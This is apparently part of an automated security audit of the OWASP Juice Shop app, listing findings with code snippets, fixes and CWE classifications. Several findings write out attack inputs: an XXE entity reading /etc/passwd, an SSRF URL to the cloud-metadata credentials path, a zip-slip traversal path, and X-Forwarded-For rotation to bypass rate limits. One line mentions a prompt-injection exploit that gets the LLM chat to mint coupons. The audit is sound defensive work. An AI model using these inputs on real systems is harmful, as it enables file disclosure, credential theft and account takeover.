**Issue:** The SecurityAnswer model setter stores answers as `security.hmac`(answer) (`models/securityAnswer.ts:48`), which is crypto.createHmac('sha256', 'pa4qacea4VK9t9nGv7yZtwmj') (`lib/insecurity.ts:44`) - a single hardcoded key shared across every record and committed to the source tree. Because the key is public and there is no per-record salt, the HMAC degenerates into a deterministic keyed hash: anyone with the source (which is open) can precompute HMACs for common security answers (mother's maiden name, first pet, city of birth - low-entropy values) and match them directly against the stored column to recover the cleartext answers, then drive the account-recovery / forgotten-password flow to take over accounts.

Offline recovery of low-entropy security answers, enabling password-reset-based account takeover for any user whose answer is guessable.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `securityAnswer.ts:48` hashes answers with `security.hmac`, whose key is the hardcoded literal 'pa4qacea4VK9t9nGv7yZtwmj' at `insecurity.ts:44`.

```typescript
// models/securityAnswer.ts:48
          this.setDataValue('answer', security.hmac(answer))
        }
      }
    },
    {
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❷ [M-038](#m-038) — Move secrets to a managed secret store

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · SPA holds API bearer credential

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/Services/socket-io.service.ts:22`

**Issue:** The Angular SPA talks directly to the Express API and Socket\.IO endpoint with no Backend-for-Frontend proxy (`socket-io.service.ts:22`, `request.interceptor.ts` attaches the Bearer on every REST call). Recon Section 7.10 confirms 'No BFF proxy layer; direct SPA-to-API communication' and 'Token stored in localStorage (no httpOnly flag)'.

This is the SPA-without-BFF architectural anti-pattern: the browser is forced to store and replay a full-power API credential, so the entire client-side XSS attack surface becomes an authentication-bypass surface, and there is no server-side place to enforce token binding, rotation, or per-request authorization decisions. Every client-side weakness escalates to credential theft, and there is no server-side control point to bind, rotate, or scope the session.

**Evidence:** ✓ verified - Section 7.10 states no BFF exists and the token lives in localStorage; the SPA wires Socket\.IO and REST directly to the origin API.

```typescript
// frontend/src/app/Services/socket-io.service.ts:22
    this.ngZone.runOutsideAngular(() => {
      if (environment.hostServer === '.') {
        this._socket = io(window.location.origin, {
          path: (window.location.pathname.endsWith('/') ? window.location.pathname : window.location.pathname + '/') + 'socket.io'
        })
```

**Fix:** ❸ [M-015](#m-015) — Introduce a Backend-for-Frontend that holds tokens server-side and exposes only a cookie session to the SPA

**Classification:** Insecure Client-Side Storage · [CWE-1173](https://cwe.mitre.org/data/definitions/1173.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/resetPassword.ts:35`

**Issue:** `resetPassword()` allows changing any user's password by supplying their email and the answer to a security question (SecurityAnswerModel lookup), with no possession factor (no email/SMS confirmation) and no rate limiting on this route. Security answers are low-entropy, guessable, or publicly discoverable (e.g. 'Samuel', 'Zaya' per the verify hints), so an attacker resets a victim's password and takes over the account.

Account takeover of any user whose security answer can be guessed or researched.

**Evidence:** ✓ verified - Password change is gated solely on a security-answer match against SecurityAnswerModel with no out-of-band verification.

```typescript
// routes/resetPassword.ts:35
    }
    try {
      const data = await SecurityAnswerModel.findOne({
        include: [{
          model: UserModel,
```

**Fix:** ❷ [M-024](#m-024) — Replace security-question reset with an out-of-band token flow

**Classification:** Broken Authentication · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:637`

**Issue:** The chat endpoint is registered as `app.post('/rest/chat', utils.asyncHandler(chat()))` with no `security.isAuthorized()` middleware, unlike sibling REST routes (`server.ts:354-366`) that gate with `isAuthorized()`/`denyAll()`. The interface contract claims this endpoint is 'authenticated', but it is not - the handler's `getUserId()` (`routes/chat.ts:42-47`) returns undefined when no JWT is present and the request proceeds anyway.

An unauthenticated attacker can therefore reach the LLM backend, drive token consumption, and attempt the prompt-injection coupon exploit (llm-chat-interface-002) without any account. Anonymous callers reach the LLM and its tools, enabling unauthenticated abuse (cost amplification, coupon minting via injection) that the 'authenticated' contract was assumed to prevent.

**Evidence:** ✓ verified - `server.ts:637` wires `/rest/chat` with only asyncHandler - no `isAuthorized()` guard - while comparable routes at `server.ts:354`-366 require authorization.

```typescript
// server.ts:637

  /* Chat API endpoint */
  app.post('/rest/chat', utils.asyncHandler(chat()))

  /* Web3 API endpoints */
```

**Fix:** ❷ [M-025](#m-025) — Add security.isAuthorized middleware to the `/rest/chat` route registration

**Classification:** Unauthenticated Management Plane · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Missing Authentication

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - Socket\.IO Real-Time Service  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Instances (2):** 🟠 `lib/startup/registerWebsocketEvents.ts:24`, 🟡 `lib/startup/registerWebsocketEvents.ts:34`

**Issue:** The Socket\.IO server is created with `new Server(server, { cors: { origin: 'http://localhost:4200' } })` and registers `io.on('connection', ...)` with no `io.use()` handshake middleware and no token/session check. Any anonymous client that can reach `/socket.io` opens a full duplex channel and receives every server-side broadcast (`io.emit('challenge solved', ...)` from `challengeUtils.ts:71`) plus the replay of all queued `notifications` on connect.

No identity is ever bound to the socket, so a client cannot be attributed and every emitted event is delivered to spoofable, unauthenticated peers. Any network-reachable client receives challenge-solution notifications and server-state events without authenticating.

**Evidence:** ✓ verified - The connection handler at `registerWebsocketEvents.ts:24` runs immediately on connect with no preceding `io.use()` auth gate anywhere in the file.

```typescript
// lib/startup/registerWebsocketEvents.ts:24
  globalWithSocketIO.io = io

  io.on('connection', (socket: any) => {
    if (firstConnectedSocket === null) {
      socket.emit('server started')
```

**Fix:** ❷ [M-026](#m-026) — Add Socket\.IO handshake authentication via `io.use` that validates the session JWT before accepting connections

**Classification:** Broken Authentication · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Insufficient Verification of Data Authenticity

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Web3/NFT Integration  ·  **Location:** `routes/nftMint.ts:41`

**Issue:** `walletNFTVerify` (`routes/nftMint.ts:41`) reads `req.body.walletAddress` and checks it against the in-memory `addressesMinted` Set, then solves `nftMintChallenge`. `contractExploitListener` (`routes/web3Wallet.ts:15`) likewise adds the caller-supplied `walletAddress` to `walletsConnected`.

Neither endpoint requires the caller to prove control of the Ethereum address - there is no signed-message / nonce challenge (EIP-191/EIP-4361 SIWE) and no `security.isAuthorized()` middleware on `/rest/web3/*` (`server.ts:642-644`). Any unauthenticated caller can impersonate an arbitrary Ethereum wallet to claim minting/exploit credit, defeating the wallet-ownership trust assumption.

**Evidence:** ✓ verified - walletNFTVerify trusts `req.body.walletAddress` directly against addressesMinted with no signature verification and no auth middleware on the route.

```typescript
// routes/nftMint.ts:41
  return (req: Request, res: Response) => {
    try {
      const metamaskAddress = req.body.walletAddress
      if (addressesMinted.has(metamaskAddress)) {
        addressesMinted.delete(metamaskAddress)
```

**Fix:** ❷ [M-027](#m-027) — Verify token signatures before trusting claims

**Classification:** Broken Access Control · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Zip-Slip path traversal complaint zip

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/fileUpload.ts:44`

**Issue:** handleZipFileUpload extracts uploaded zip entries to 'uploads/complaints/' + entry.path. The traversal guard only checks absolutePath.includes(path.resolve('.')) - a substring test that a crafted entry path such as '../../`ftp/legal.md`' or an absolute path under the project root still satisfies, so an attacker writes files outside the intended directory (arbitrary file overwrite within the app tree), as the fileWriteChallenge marker confirms by targeting `ftp/legal.md`.

Arbitrary file write within the application directory via a malicious zip, enabling overwrite of served content.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - Extraction destination is built by concatenating the attacker-controlled `entry.path`, guarded only by a substring `includes()` check rather than a prefix/normalized-path containment check.

```typescript
// routes/fileUpload.ts:44
                const absolutePath = path.resolve('uploads/complaints/' + fileName)
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
```

**Fix:** ❷ [M-028](#m-028) — Validate extracted zip entry paths with a normalized prefix containment check

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Unpinned GitHub Action Mutable Ref

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/image_actions.yml:33`

**Issue:** `image_actions.yml` references third-party actions by mutable refs: `calibreapp/image-actions@main` (`:33` - a branch HEAD that can change at any time), `actions/checkout@v6` (`:30`), and `peter-evans/create-pull-request@v8` (`:42`). `ci.yml:202` similarly uses `coverallsapp/github-action@v2`.

The `@main` reference is the most dangerous: whoever controls the `calibreapp/image-actions` default branch can push code that runs in this workflow with the `GITHUB_TOKEN` (`image_actions.yml:35`), and the downstream `create-pull-request` step opens a PR with write scope. A compromise of the upstream action's default branch runs arbitrary code in the pipeline with a write-capable GITHUB_TOKEN and PR-creation rights.

**Evidence:** ✓ verified - `image_actions.yml` line 33 pins calibreapp/image-actions to the mutable `@main` branch, with two further tag-only refs at lines 30 and 42.

```yaml
// .github/workflows/image_actions.yml:33
      - name: Compress Images
        id: calibre
        uses: calibreapp/image-actions@main
        with:
          githubToken: ${{ secrets.GITHUB_TOKEN }}
```

**Fix:** ❷ [M-029](#m-029) — Pin all third-party actions to a full 40-character commit SHA

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Lockfile Disabled Config

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.npmrc:1`

**Issue:** `.npmrc:1` sets `package-lock=false`, `package-lock.json` is gitignored (`.gitignore:10`) and absent from the tree. Every `npm install` across CI (`ci.yml:65,85,124,161,217,252`), the release packaging job (`release.yml:43`), and the Docker build (`Dockerfile:5`) resolves the full dependency graph fresh against the live npm registry with no committed integrity baseline.

There is no `integrity:` hash to validate against and no diff signal when a transitive version changes. Dependency versions are non-deterministic and integrity-unverified across every developer and CI build, so a poisoned registry version installs silently into the published image.

**Evidence:** ✓ verified - `.npmrc` line 1 contains `package-lock=false`, which suppresses lockfile generation for every install invocation in the repo.

```
// .npmrc:1
package-lock=false
```

**Fix:** ❷ [M-030](#m-030) — Remove package-lock=false from .npmrc, commit `package-lock.json`, and switch CI to npm ci

**Classification:** Supply-Chain Integrity · [CWE-1357](https://cwe.mitre.org/data/definitions/1357.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · XML External Entity (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** handleXmlUpload parses uploaded XML with libxml.parseXml(data, { noent: true }) inside a vm sandbox. `noent: true` substitutes external entities, so an attacker uploads an XML file declaring `<!ENTITY xxe SYSTEM 'file:///etc/passwd'>` and references it, causing the server to read local files and reflect them in the error response (line 87 echoes xmlString).

The same parser is also abusable for billion-laughs entity-expansion DoS. Local file disclosure (e.g. `/etc/passwd`) and entity-expansion denial of service.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - libxml.parseXml is called with `noent:true`, which enables external entity substitution on attacker-supplied XML.

```typescript
// routes/fileUpload.ts:83
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❷ [M-035](#m-035) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Server-Side Request Forgery (SSRF)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Issue:** `profileImageUrlUpload()` takes `req.body.imageUrl` from an authenticated user and passes it straight to fetch(url) with no scheme or host allowlist. An attacker submits imageUrl=`http://169.254.169.254/latest/meta-data/iam/security-credentials/` (cloud metadata) or `http://internal-service:8080/admin` to make the server issue requests to internal/metadata endpoints.

On fetch failure the URL is even persisted as the profile image (line 36), and on success the response body is written to disk, enabling content substitution. Internal network and cloud-metadata probing, potential credential theft from the metadata service.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - fetch(url) is called on the raw `req.body.imageUrl` with only a challenge-marker regex, no scheme/host validation.

```typescript
// routes/profileImageUrlUpload.ts:24
      if (loggedInUser) {
        try {
          const response = await fetch(url)
          if (!response.ok || !response.body) {
            throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ❷ [M-036](#m-036) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A10:2021](https://owasp.org/Top10/A10_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · No --unsafe-perm install flag

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `Dockerfile:5`

**Issue:** Dockerfile no --unsafe-perm install flag. `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm install -g typescript@~5.3.3
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-003](#m-003) — Drop unnecessary privileges in build and runtime

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/release.yml:1`

**Instances (14):** `.github/workflows/release.yml:1`, `.github/workflows/update-news-www-legacy.yml:1`, `.github/workflows/update-challenges-ebook.yml:1`, `.github/workflows/image_actions.yml:1`, `.github/workflows/lint-fixer.yml:1`, `.github/workflows/stale.yml:1`, `.github/workflows/ci.yml:1`, `.github/workflows/update-news-www.yml:1` … (+6 more)

**Issue:** GitHub Actions workflow-level permissions block. Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/release.yml:1
name: "Release Pipeline"
on:
  push:
```

**Fix:** ❷ [M-004](#m-004) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Third-party GitHub Actions pinned commit

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `.github/workflows/lock.yml:15`

**Instances (14):** `.github/workflows/lock.yml:15`, `.github/workflows/release.yml:46`, `.github/workflows/update-news-www-legacy.yml:20`, `.github/workflows/update-challenges-ebook.yml:26`, `.github/workflows/image_actions.yml:33`, `.github/workflows/lint-fixer.yml:22`, `.github/workflows/ci.yml:88`, `.github/workflows/update-news-www.yml:20` … (+6 more)

**Issue:** Third-party GitHub Actions pinned to commit SHA. Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

**Evidence:** ✓ verified

```yaml
// .github/workflows/lock.yml:15
    runs-on: ubuntu-latest
    steps:
      - uses: dessant/lock-threads@7266a7ce5c1df01b1c6db85bf8cd86c737dadbe7 #v6.0.0
        with:
          issue-lock-comment: >
```

**Fix:** ❷ [M-005](#m-005) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `test/smoke/Dockerfile:1`

**Issue:** Dockerfile base image must be digest-pinned. Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-006](#m-006) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline  ·  **Location:** `package-lock.json:1`

**Issue:** `package-lock.json` present and committed. Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-007](#m-007) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · OAuth access_token passed URL fragment

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:28`

**Issue:** The OAuth flow is an implicit-style flow: the access_token arrives in the redirect URL fragment and is parsed by `parseRedirectUrlParams()` (`oauth.component.ts:73-82`), then sent to Google as a query-string parameter 'https://www.googleapis.com/oauth2/v1/userinfo?...&access_token=' + accessToken (`user.service.ts:68`). Tokens in URLs leak via browser history, Referer headers, server access logs, and proxy logs.

There is no PKCE, no 'state' parameter validation against CSRF on the redirect, and no nonce binding - recon Section 7.9 confirms the flow is implicit/authorization-code simulated with no PKCE. Access tokens leak through history/Referer/logs, enabling token replay and account impersonation.

**Evidence:** ✓ verified - access_token is read from the redirect URL fragment and then re-sent in a GET query string to the Google userinfo endpoint, with no PKCE or state validation.

```typescript
// frontend/src/app/oauth/oauth.component.ts:28

  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
```

**Fix:** ❸ [M-039](#m-039) — Replace implicit flow with Authorization Code + PKCE and keep tokens out of URLs

**Classification:** OAuth / OIDC Misconfiguration · [CWE-598](https://cwe.mitre.org/data/definitions/598.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-032"></a><a id="f-032"></a>
#### F-032 · Authentication Bypass by Spoofing

**Severity:** 🟠 High - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:346`

**Issue:** The reset-password rate limiter uses a keyGenerator that returns headers['X-Forwarded-For'] ?? ip (`server.ts:346`).

Because X-Forwarded-For is fully attacker-controlled and the limiter trusts it ahead of the real socket IP, an attacker rotates a unique X-Forwarded-For value per request and each request is counted under a different bucket, defeating the limit entirely. Attacker bypasses reset throttling by spoofing the forwarding header, enabling unbounded security-answer brute force and account takeover.

**Evidence:** ✓ verified - keyGenerator at `server.ts:346` prefers the client-supplied X-Forwarded-For header over the socket IP, making the rate-limit bucket attacker-selectable.

```typescript
// server.ts:346
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** ❷ [M-041](#m-041) — Key reset-password rate limiting on the trusted socket IP, not X-Forwarded-For

**Classification:** Broken Authentication · [CWE-290](https://cwe.mitre.org/data/definitions/290.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-033"></a><a id="f-033"></a>
#### F-033 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `routes/login.ts:32`

**Issue:** POST `/rest/user/login` is registered at `server.ts:595` with no rate-limit or lockout middleware (the rateLimit guard at `server.ts:343` covers only `/rest/user/reset-password`, and the 2fa limiters at lines 458-471 cover only 2FA routes). An attacker can submit unlimited email/password combinations against `login()`, enabling online password spraying and credential-stuffing.

The absence is compounded by unsalted `MD5` storage (auth-004) and the SQLi surface (auth-003) on the same handler. Attacker runs unbounded online guessing against any account, leading to takeover of weak-password users.

**Evidence:** ✓ verified - `app.post`('/rest/user/login', `login()`) at `server.ts:595` carries no rate-limiting middleware; the only login-adjacent limiter targets reset-password (`server.ts:343`).

```typescript
// routes/login.ts:32
  }

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-042](#m-042) — Rate-limit and lock out repeated authentication attempts

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-034"></a><a id="f-034"></a>
#### F-034 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `server.ts:595`

**Issue:** The login route is registered with no rate-limit middleware and the application implements no account-lockout. An attacker scripts unlimited credential-stuffing / brute-force attempts against `/rest/user/login`.

The only rate limiter in the app covers `/rest/user/reset-password`, and even that uses keyGenerator returning the client-supplied X-Forwarded-For header (`server.ts:346`), so an attacker rotates that header to reset the bucket and bypass the limit entirely. Unthrottled brute-force of all accounts and bypass of the one existing limiter via header spoofing.

**Evidence:** ✓ verified - `app.post`('/rest/user/login', `login()`) has no preceding rateLimit middleware; the sole limiter keys on the spoofable X-Forwarded-For header.

```typescript
// server.ts:595

  /* Custom Restful API */
  app.post('/rest/user/login', login())
  app.get('/rest/user/change-password', utils.asyncHandler(changePassword()))
  app.post('/rest/user/reset-password', utils.asyncHandler(resetPassword()))
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-043](#m-043) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · Catastrophic-backtracking regex client data

**Severity:** 🟠 High  ·  **Component:** [C-04](#c-04) - Socket\.IO Real-Time Service  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:46`

**Issue:** The `verifySvgInjectionChallenge` handler runs `data?.match(/.*\.\.\/\.\.\/\.\.[\w/-]*?\/redirect\?to=https?:\/\/placecats.com\/(g\/)?[\d]+\/[\d]+.*/)` directly on attacker-controlled `data: any` received over an unauthenticated socket. The pattern combines a leading `.*`, a lazy `[\w/-]*?` segment, and a trailing `.*`, which is vulnerable to catastrophic backtracking: a crafted long string of slashes/word characters that nearly-but-never matches forces exponential regex evaluation on the single `Node.js` event loop, blocking the entire server for all users.

There is no length cap, no input validation, and no rate limiting on the event, so a single small malicious payload can hang the process. A single crafted WebSocket message can pin the event loop and deny service to all connected users.

**Evidence:** ✓ verified - `registerWebsocketEvents.ts:46` applies a backtracking-prone regex (`.*` ... lazy ... `.*`) to unbounded client-supplied `data` with no length guard.

```typescript
// lib/startup/registerWebsocketEvents.ts:46
    })

    socket.on('verifySvgInjectionChallenge', (data: any) => {
      challengeUtils.solveIf(challenges.svgInjectionChallenge, () => { return data?.match(/.*\.\.\/\.\.\/\.\.[\w/-]*?\/redirect\?to=https?:\/\/placecats.com\/(g\/)?[\d]+\/[\d]+.*/) && security.isRedir
    })
```

**Fix:** ❷ [M-044](#m-044) — Bound and validate verify-challenge input length and harden the SVG-injection regex against backtracking

**Classification:** Denial of Service · [CWE-1333](https://cwe.mitre.org/data/definitions/1333.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Allocation of Resources without Limits

**Severity:** 🟠 High  ·  **Component:** [C-07](#c-07) - Web3/NFT Integration  ·  **Location:** `routes/web3Wallet.ts:16`

**Issue:** `contractExploitListener` adds every caller-supplied `req.body.walletAddress` to the module-level `walletsConnected` Set (`routes/web3Wallet.ts:16`) BEFORE any validation, and `walletNFTVerify` is similarly invocable at will. The routes are registered at `server.ts:642-644` with no `rateLimit()` middleware (rate limiting is applied only to `/rest/user/reset-password` and a few B2B routes, `server.ts:343`/458/465/471).

An unauthenticated attacker can flood `/rest/web3/walletExploitAddress` with millions of distinct fake addresses to exhaust process memory, and repeatedly hit `/rest/web3/nftMintListen` to thrash WebSocket-provider creation on the shared `isEventListenerCreated` race, degrading availability of the single-process Node server. An unauthenticated flood drives unbounded memory growth and repeated WebSocket churn, risking out-of-memory crash of the single Node process.

**Evidence:** ✓ verified - `walletsConnected.add`(metamaskAddress) runs on every unauthenticated POST with no rate limit and no cap on Set size.

```typescript
// routes/web3Wallet.ts:16
  return async (req: Request, res: Response) => {
    const metamaskAddress = req.body.walletAddress
    walletsConnected.add(metamaskAddress)
    try {
      if (!isEventListenerCreated) {
```

**Fix:** Bound the request rate and the per-request resource budget on this endpoint → ❷ [M-045](#m-045) — Rate-limit and lock out repeated authentication attempts

**Classification:** Denial of Service · [CWE-770](https://cwe.mitre.org/data/definitions/770.html) · [OWASP A04:2021](https://owasp.org/Top10/A04_2021/)

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · No server-side token revocation; logout

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication and Session Surface  ·  **Location:** `lib/insecurity.ts:72`

**Issue:** Sessions are tracked in the in-memory authenticatedUsers map (`lib/insecurity.ts:72`) which has no TTL and no revocation API. Tokens are stateless JWTs with a 6h expiry (`authorize()`, line 56).

Logout merely removes the in-memory entry, but `updateAuthenticatedUsers()` (line 188) transparently re-adds any presented token whose signature/expiry still validate, so a stolen or leaked token remains fully usable for the entire 6h window regardless of logout. A captured or forged token grants continuous privileged access for up to 6 hours with no way to revoke it on logout or compromise.

**Evidence:** ✓ verified - authenticatedUsers (`lib/insecurity.ts:72`) is a TTL-less in-memory map and `updateAuthenticatedUsers()` (line 188) re-registers any still-valid token, so logout cannot revoke a JWT.

```typescript
// lib/insecurity.ts:72
}

export const authenticatedUsers: IAuthenticatedUsers = {
  tokenMap: {},
  idMap: {},
```

**Fix:** ❷ [M-046](#m-046) — Add server-side token revocation with jti deny-list and shorter access-token TTL

**Classification:** Broken Authentication · [CWE-613](https://cwe.mitre.org/data/definitions/613.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Code Injection

**Severity:** 🟠 High _(raw Critical)_  ·  **Component:** [C-01](#c-01) - Express REST API Backend  ·  **Location:** `routes/userProfile.ts:61`

